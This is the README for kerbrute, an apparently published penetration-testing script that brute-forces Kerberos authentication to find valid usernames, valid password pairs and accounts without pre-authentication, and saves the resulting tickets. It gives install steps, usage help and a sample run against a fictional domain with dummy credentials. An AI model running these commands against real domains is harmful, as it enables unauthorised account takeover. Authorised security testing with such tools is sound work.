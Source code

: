# kerbrute
An script to perform kerberos bruteforcing by using the Impacket library.

When is executed, as input it receives a user or list of users and a password or list of password. Then is performs a brute-force attack to enumerate:
* Valid username/passwords pairs
* Valid usernames
* Usernames without pre-authentication required

As a result, the script generates a list of valid credentials discovered, and the TGT's generated due those valid credentials.

## Installation

From pypi:
```
pip3 install kerbrute
```

From repo:
```
git clone https://github.com/TarlogicSecurity/kerbrute
cd kerbrute
pip install -r requirements.txt
```

## Use

Help without arguments:
```shell
root@kali:kerbrute# python kerbrute.py
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

usage: kerbrute.py [-h] [-debug] (-user USER | -users USERS)
                   [-password PASSWORD | -passwords PASSWORDS] -domain DOMAIN
                   [-dc-ip <ip_address>] [-threads THREADS]
                   [-outputfile OUTPUTFILE] [-no-save-ticket]

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -user USER            User to perform bruteforcing
  -users USERS          File with user per line
  -password PASSWORD    Password to perform bruteforcing
  -passwords PASSWORDS  File with password per line
  -domain DOMAIN        Domain to perform bruteforcing
  -dc-ip <ip_address>   IP Address of the domain controller
  -threads THREADS      Number of threads to perform bruteforcing. Default = 1
  -outputfile OUTPUTFILE
                        File to save discovered user:password
  -no-save-ticket       Do not save retrieved TGTs with correct credentials

Examples: 
	./kerbrute.py -users users_file.txt -passwords passwords_file.txt -domain contoso.com
```

Example of execution:
```shell
root@kali:kerbrute# python kerbrute.py -domain jurassic.park -users users.txt -passwords passwords.txt -outputfile jurassic_passwords.txt
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

[*] Stupendous => triceratops:Sh4rpH0rns
[*] Saved TGT in triceratops.ccache
[*] Valid user => velociraptor [NOT PREAUTH]
[*] Valid user => trex
[*] Saved discovered passwords in jurassic_passwords.txt
```
